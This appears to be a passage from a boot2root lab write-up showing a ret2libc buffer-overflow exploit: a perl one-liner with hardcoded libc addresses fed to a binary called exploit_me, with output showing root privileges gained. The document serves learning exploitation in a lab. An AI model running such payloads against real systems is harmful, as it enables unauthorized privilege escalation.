 #### Prepare ret2libc attack

```
perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"'
```

#### Execute

```
./exploit_me $(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��OSEFX��
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)

```

We are now root

![shellcode](https://github.com/42aroger/boot2root/blob/master/img/rooted.png?raw=true)

Greetings to [hackndo](https://beta.hackndo.com/retour-a-la-libc/)
